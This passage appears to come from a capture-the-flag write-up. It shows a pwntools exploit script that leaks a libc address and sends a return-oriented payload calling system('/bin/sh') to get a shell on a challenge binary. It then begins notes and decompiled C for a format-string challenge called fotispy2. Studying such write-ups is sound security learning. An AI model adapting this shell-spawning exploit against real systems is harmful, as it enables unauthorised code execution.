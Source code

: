 ```py

def login(name, passwd):
    p.recvuntil("Please enter your choice [E]: ")
    p.sendline("1")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
    p.sendline(passwd)

def add_song():
    global libc_leak
    p.recvuntil("Please enter your choice [E]: ")
    p.sendline("2")
    p.recvuntil("[DEBUG] ")
    libc_leak = int(p.recvline().strip(), 16)
    log.info("libc leak: " + hex(libc_leak))
    libc_base = libc_leak - libc.symbols["printf"]
    log.info("libc base: " + hex(libc_base))
    pop_rdi_ret = libc_base + 0x277e5
    system = libc_base + libc.symbols["system"]
    binsh = libc_base + next(libc.search(b"/bin/sh"))
    ret = pop_rdi_ret + 1
    payload = b"a"*13 + p64(0x4040c0) +p64(0) + p64(ret) + p64(pop_rdi_ret) + p64(binsh) + p64(system) + p64(0)
    p.recvuntil("Please enter a song title: ")
    p.sendline("aaa")
    p.recvuntil("is from: ")
    p.sendline(b"aaa")
    p.recvuntil("is on: ")
    p.sendline(payload)


register("rosa", "123")
login("rosa", "123")
add_song()
# gdb.attach(p)
# pause()
p.recvuntil("Please enter your choice [E]: ")
p.sendline("3")
p.interactive()
```


## fotispy2

Done in 2 hrs after the hint from jiegec.

This seems to be a format string challenge, but it checks whether the input contains `%` and gives an error if it does. The main logic is as below

```c
void __fastcall create(__int64 a1)
{
  unsigned __int8 v1; // [rsp+1Bh] [rbp-15h]
  int v2; // [rsp+1Ch] [rbp-14h]
  int v3; // [rsp+20h] [rbp-10h]
  char *ptr; // [rsp+28h] [rbp-8h]

  if ( cur_user_idx == -1 )
  {
    puts("[-] No user has logged in yet.");
  }
  else
  {
```